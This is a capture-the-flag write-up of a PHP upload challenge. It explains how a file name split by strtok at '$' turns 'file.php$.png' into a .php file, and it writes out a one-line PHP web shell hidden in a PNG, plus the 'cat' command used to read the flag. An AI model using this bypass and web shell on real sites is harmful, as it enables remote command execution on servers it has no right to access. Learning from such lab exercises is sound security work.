


We are given some source code, and the website is a file uploader which takes a name and a file.



Looking at the code in PHP a specific line catches my eye almost immediately.

```php
$fileName=strtok($fileName,chr(7841151584512418084));
```

The `chr(...)` aspect resolves to `$`, and the PHP function `strtok` splits a string at the deliminator, and takes the first half. 

Immediately an exploit is brewing... 

In theory if we uploaded a file with a JPEG/PNG MIME type and had the PHP code change the extension to a `.php`, we could have Command Injection!

I rename a PNG on my computer to `file.php$.png` to test my theory. 
The PHP code should split at the `$` and take the first half (`file.php`).



It works!

Looking at our image restrictions (content type & file extension detection), I get a small PHP webshell (``<?=`$_GET[0]`?>``) and smuggle it inside my PNG file.

Once uploaded we send our payload to read the flag: `cat ../../ s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt`

Flag: `flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}`

**Files:** [php_sucks.zip](https://web.archive.org/web/20231218155922/https://backdoor.infoseciitr.in/uploads?key=b24a1d922590a6c088559e5be72cccc839fda0ffd2210b13fd3913dfd186caa2%2Fphp_sucks.zip)